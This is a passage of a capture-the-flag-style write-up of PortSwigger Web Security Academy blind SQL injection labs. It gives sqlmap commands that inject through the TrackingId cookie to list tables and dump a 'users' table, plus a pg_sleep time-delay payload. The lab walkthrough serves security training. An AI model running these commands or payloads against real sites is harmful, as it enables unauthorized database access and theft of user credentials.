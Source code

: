 
### Quick Solution
This time the SQL Injections resides in the ``TrackingId`` cookie. For this reason a different ``sqlmap`` command must be used:
```
# Detect tables
docker run -it --rm secsi/sqlmap -u "<target_url>" --cookie="TrackingId=1" -p "TrackingId" --level 3 --tables
# Dump the content of 'users' table (set DBMS to speed up the execution)
docker run -it --rm secsi/sqlmap -u "<target_url>" --cookie="TrackingId=1" -p "TrackingId" --level 3 -T users --dbms=postgresql --dump
```


### Solution
The solution is **extremely long** and it has not been copied, see the reference link.

## Blind SQL injection with conditional errors
Reference: https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors


### Quick Solution
In this case the Database is Oracle. It is impossible to use either ``ALL_TABLES`` and ``ALL_TAB_COLUMNS`` to retrieve Database content. For this reason there are two alternative:
- Infer the existence of a ``users`` table
- Blindly detect all the table in the ``SYSTEM`` Database

Here is the code for both of them: 
```
# Blindly detect all the tables in the SYSTEM database
docker run -it --rm secsi/sqlmap -u "<target_url>" --cookie="TrackingId=1" -p "TrackingId" --level 3 --dump
# Dump the content of the users table
docker run -it --rm secsi/sqlmap -u "<target_url>" --cookie="TrackingId=1" -p "TrackingId" --level 3 -T users --dump
```


### Solution
The solution is **extremely long** and it has not been copied, see the reference link.

## Blind SQL injection with time delays
Reference: https://acd71f421faa06c4c0601db1008a000e.web-security-academy.net/


### Quick Solution
For this lab it is only needed to observe that the DB is vulnerable to SQL injection with time delay, see the solution in the next section.                          


### Solution
1. Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the TrackingId cookie.
2. Modify the TrackingId cookie, changing it to: 
```
TrackingId=x'||pg_sleep(10)--
```
3. Submit the request and observe that the application takes 10 seconds to respond.

